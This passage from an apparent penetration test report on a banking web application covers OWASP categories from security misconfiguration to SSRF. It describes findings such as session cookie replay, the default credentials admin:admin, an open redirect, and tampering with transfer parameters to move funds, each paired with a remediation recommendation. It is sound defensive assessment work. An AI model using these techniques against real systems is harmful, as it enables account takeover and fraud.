





**Recommendation:**

> Transaction data such as account numbers and transfer amounts must never cross the wire without integrity protection. Carry these operations over HTTPS with TLS 1.3 to prevent interception, and bind request integrity server-side with validation, digital signatures, or an HMAC. Client-supplied parameters cannot be trusted, and the authoritative transaction logic belongs on the server.
> 

## 5. Security Misconfiguration

- While testing for CSRF, responses were observed to carry a `Server` header disclosing the exact server build in use (`Apache-Coyote/1.1`), narrowing an attacker's search for applicable published vulnerabilities.



**Recommendation:**

> The application server discloses detailed version information in the `Server` response header (`Apache-Coyote/1.1`). This assists an attacker in fingerprinting the technology stack and selecting vulnerabilities known to affect that build. Suppress or generalise version information in HTTP response headers to reduce the attack surface.
> 

---

- No client-side restriction on third-party redirects is in place, so the redirect parameter can be pointed at an arbitrary external destination, including a malicious one.





**Recommendation:**

> Validate redirect parameters against the expected format and, preferably, against an allowlist of permitted destinations. Disable redirects to third-party domains, and where an external redirect is legitimately required, route it through an interstitial warning page.
> 

## 6. Vulnerable and Outdated Components

- As noted above, responses disclose the server build in use (`Apache-Coyote/1.1`), identifying an outdated component along with the vulnerabilities published against it.


**Recommendation:**

> The application server discloses detailed version information in the `Server` response header (`Apache-Coyote/1.1`). This assists an attacker in fingerprinting the technology stack and selecting vulnerabilities known to affect that build. Suppress or generalise version information in HTTP response headers to reduce the attack surface.
> 

---

- Adobe Flash Player reached end of life in 2021, so any vulnerability found in it from that point onward will never be patched, leaving the application permanently exposed through that component.



**Recommendation:**

> Adobe Flash Player reached end of life on 1 January 2021 and receives no further security updates, so any Flash dependency is a permanently unpatched attack surface. Remove all Flash-based functionality and reimplement it with supported technology such as HTML5, JavaScript, or WebAssembly. Confirm afterwards that no Flash files remain reachable from the public interface and that every reference to Flash is gone from the codebase and the UI.
> 
- An obfuscated SQL injection payload in the date field raises a `500 Internal Server Error` that returns the full stack trace rather than a generic message. The server version appears at the bottom of the trace.





**Recommendation**

> The stack trace exposes internal implementation detail — file paths, library names, and the server version — that shortens the path to a working exploit. Return a generic message to the user and log the detail internally for debugging. Ensure exception handling covers invalid input paths so that malformed requests fail without revealing backend information.
> 

## 7. Identification and Authentication Failures

- Copying the `JSESSIONID` cookie from an authenticated user and replaying it grants access to that user's banking view, with no further authentication required.


**Recommendations:**

> Session cookies such as `JSESSIONID` need protection against theft and replay. Set the `HttpOnly` and `Secure` flags, enforce `SameSite`, and regenerate the session identifier on every login and privilege change. Add server-side checks for concurrent sessions and for anomalies such as a change of source IP or user agent, and expire sessions after a short idle timeout, so that a copied cookie alone no longer confers access.
> 

---

- The weak hardcoded default credentials let an unprivileged party reach privileged functionality without authenticating as anyone who holds it.


**Recommendation:**

> Default credentials such as `admin:admin` should never survive into production. They are a development leftover and become a critical exposure the moment the application is reachable from the internet. Disable or re-secure every default account before deployment, hold administrative accounts to a strong password policy with rotation, and require multi-factor authentication for all privileged access.
> 

## 8. Software and Data Integrity Failures

- Tampering with the transfer amount and the destination account redirects funds to an account of our choosing.







**Recommendation:**

> Transaction data such as account numbers and transfer amounts must never cross the wire without integrity protection. Carry these operations over HTTPS with TLS 1.3 to prevent interception, and bind request integrity server-side with validation, digital signatures, or an HMAC. Client-supplied parameters cannot be trusted, and the authoritative transaction logic belongs on the server.
> 

## 9. Security Logging and Monitoring Failures

- Not conclusively assessable from a black-box position: confirming whether logs are generated, retained, and reviewed requires backend access that was outside the scope of this engagement.
- Fuzzing for log files exposed to either an ordinary or a privileged user returned nothing.

## 10. Server-Side Request Forgery

- No SSRF exposure was identified. No parameter was observed carrying a URL that the server then fetched on the client's behalf.
